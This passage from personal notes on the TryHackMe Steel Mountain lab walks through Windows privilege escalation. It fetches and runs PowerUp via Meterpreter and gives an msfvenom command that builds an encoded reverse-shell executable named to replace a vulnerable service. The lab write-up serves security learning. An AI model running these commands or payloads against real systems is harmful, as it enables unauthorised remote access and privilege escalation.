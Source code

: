 [The Windows counterpart to `cat` is `type`.](https://superuser.com/questions/434870/what-is-the-windows-equivalent-of-the-unix-command-cat#434876)

NOTES TO SELF:

- NetworkManager likes to bring down connections on session disconnect, even if TMUX is running in the background.
- Remember to punch a (temporary) hole through the firewall for _all_ of the ports required by the exploit!

I lost a good hour getting stuck because of these two minor complications.

- [Using “nmap”](https://cardboard-iguana.com/notes/nmap.html)

## Privilege Escalation

PowerUp is a script that scans for common Windows vulnerabilities. It looks like the version that’s included with Kali Linux is different and/or not-up-to-date relative to the version of PowerUp linked to by the TryHackMe Steelmountain room. In particular, Kali version doesn’t list _a lot_ of information about potentially vulnerable services that is necessary for completing this section. (On the downside, the version of PowerUp we need to use produces _a lot_ of duplicative output too…)

Anyways, first we have to download the more capable version of PowerUp:

```
curl -O https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

Meterpreter can upload files to the target machine:

```
upload /home/kali/PowerUp.ps1
```

To load it up in Meterpreter we need to shell out to PowerShell.

```
load powershell
powershell_shell
```

And then:

```
. .\PowerUp.ps1
Invoke-AllChecks
```

For whatever reason, the room lists the wrong msfvenom command. To generate the correct reverse shell requires:

```
msfvenom -p windows/shell_reverse_tcp \
LHOST=10.13.26.40 LPORT=4443 \
-e x86/shikata_ga_nai -f exe -o ASCService.exe
```

(The reason we need to specify an encoder here is because the vulnerable binary is in Program Files (x86), so we need to produce an x86 binary rather than the default x86\_64 binary.)
